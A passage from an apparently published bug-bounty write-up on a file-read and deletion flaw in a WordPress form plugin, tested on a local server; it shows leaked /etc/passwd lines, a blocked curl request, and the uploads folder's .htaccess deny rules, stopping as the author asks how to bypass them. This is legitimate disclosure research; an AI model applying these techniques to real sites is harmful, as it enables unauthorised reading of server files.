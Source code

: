 ```shell
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

Nice! Can we read this copied file?

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-read-deletion)-[2024.08.22|20:30:41(HKT)]
└> curl http://localhost/wp-content/uploads/bitforms/uploads/1/1
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.54 (Debian) Server at localhost Port 80</address>
</body></html>
```

Huh? It returns HTTP status code "403 Forbidden". Since I'm using Apache HTTP server, maybe there's a [`.htaccess` file](https://httpd.apache.org/docs/trunk/howto/htaccess.html) to restrict users being accessing that directory's files?

If we list all the hidden files at directory `/var/www/html/wp-content/uploads/bitforms/uploads/`, there's a `.htaccess` file:

```shell
root@9e2f4f189063:/var/www/html# ls -lah wp-content/uploads/bitforms/uploads/
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Aug 22 11:59 .
drwxr-xr-x 5 www-data www-data 4.0K Aug 22 08:52 ..
-rw-r--r-- 1 www-data www-data  220 Aug 22 08:21 .htaccess
drwxr-xr-x 2 www-data www-data 4.0K Aug 22 12:29 1
-rw-r--r-- 1 www-data www-data    6 Aug 22 08:21 index.php
```

Let's take a look at that file:

```
<IfDefine php_flag>
    php_flag engine off
</IfDefine>
Options -Indexes
Order allow,deny
Deny from all
Require all denied
```

In here, we can see that it uses [Apache's access control](https://httpd.apache.org/docs/2.4/howto/access.html) to deny all requests to everything in directory `/var/www/html/wp-content/uploads/bitforms/uploads/`.

Hmm... Can we bypass that?
